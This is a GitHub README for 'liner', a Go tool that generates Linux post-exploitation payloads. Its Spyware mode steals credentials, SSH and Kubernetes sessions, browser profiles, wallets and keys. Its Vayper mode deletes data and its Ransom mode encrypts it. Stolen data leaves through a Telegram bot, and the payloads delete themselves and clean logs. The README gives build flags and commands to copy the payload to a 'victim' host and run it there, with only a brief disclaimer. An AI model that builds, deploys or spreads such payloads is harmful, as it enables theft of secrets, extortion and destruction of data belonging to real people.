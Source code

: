 <img width="800" height="550" alt="ChatGPT Image Jul 14, 2025, 04_07_32 PM" src="https://github.com/user-attachments/assets/c870a924-deca-4834-9c11-b0b4df874eb2" />

# liner

`liner` is a lightweight and modular **post-exploitation framework** written in **pure Golang**, designed to generate **custom payloads** for Linux-based systems. These payloads can perform stealthy **data exfiltration**, **destructive actions**, or **ransom-like encryption** depending on user-defined modes.

---

## 🚀 Features

- 🔧 Generate standalone **Go binaries** for various post-exploitation tasks
- 🕵️ Spyware Mode: dump credentials, sessions, private files
- 💣 Vayper Mode: destroy selected categories of sensitive data *(WIP)*
- 🔐 Ransom Mode: encrypt sensitive files *(WIP)*
- 📤 Exfiltrate data via **Telegram bot**
- 🧹 Self-deletion & log cleanup
- 🧪 No dependencies – works out-of-the-box on any Linux system
- 🧬 Output as Go code or compiled ELF binary

---

## ⚙️ Installation

```bash
git clone https://github.com/yourname/liner.git
cd liner
go build -o liner cmd/liner.go
```

You now have a CLI tool: `./liner`

---

## 🧾 Usage

```bash

liner [FLAGS] -o [output_name]

```

### 🔹 Global Flags

| Flag         | Description                                                   |
|--------------|---------------------------------------------------------------|
| `--help`     | Show help and usage information                               |
| `--silent`   | Run without displaying the ASCII logo                         |
| `--mode`     | What the final binary should do: `Spyware`, `Vayper`, `Ransom`|
| `--token`    | Telegram bot token                                            |
| `--id`       | Telegram chat ID                                              |
| `--dump`     | What to dump: `Credentials`, `Password`, `Session`, `privateDATA`, `all` *(Spyware only)* |
| `--destroy`  | What to destroy *(Vayper only)*                               |
| `--encrypt`  | What to encrypt *(Ransom only)*                               |
| `-o`         | Output filename (with or without `.go`)                       |

---

## 🧪 Example

```bash
liner \
--mode Spyware \
--dump all \
--token 123456:ABCDEF-TelegramBotToken \
--id 987654321 \
--silent \
-o setting
```

This command creates a binary file named `setting` which:

- Runs in silent mode
- Extracts all targeted information
- Sends everything to your Telegram
- Cleans itself and logs if implemented

To run it on target:

```bash
scp ./setting user@victim:/tmp
ssh user@victim 'chmod +x /tmp/setting && /tmp/setting'
```

---

## 🗂️ Modes

### 🔹 Spyware Mode (`--mode Spyware`)

- Targeted for **stealth data extraction**
- Supported `--dump` values:
  - `Credentials`: Git credentials, keychains, browsers
  - `Password`: Bash/zsh history, `pass`, keyrings
  - `Session`: `.ssh`, `.kube`, browser profiles
  - `privateDATA`: `.env`, `.sqlite`, `.wallet`, `.pem`, `.p12`, etc.
  - `all`: all of the above

### 🔹 Vayper Mode (`--mode Vayper`) *(WIP)*

- Designed to **delete** specific data classes
- Supported `--destroy` values: `Credentials`, `Password`, `Session`, `privateDATA`, `all`

### 🔹 Ransom Mode (`--mode Ransom`) *(WIP)*

- Designed to **encrypt** selected data on disk
- Supported `--encrypt` values: same as `--destroy`

---

## 📤 Exfiltration Details

- Data collected is zipped or serialized
- Sent via `https://api.telegram.org/bot<token>/sendDocument`
- Uses HTTP POST requests with silent delivery
- No external libraries – raw Go net/http

---

## 🛡️ Legal Disclaimer

This project is for **educational and authorized security testing** only.  
Using this tool against systems without explicit permission is **illegal**.

---

## 👨‍💻 Author

Developed with ❤️ by [MNM]  
If you find this useful, give it a ⭐ on GitHub!

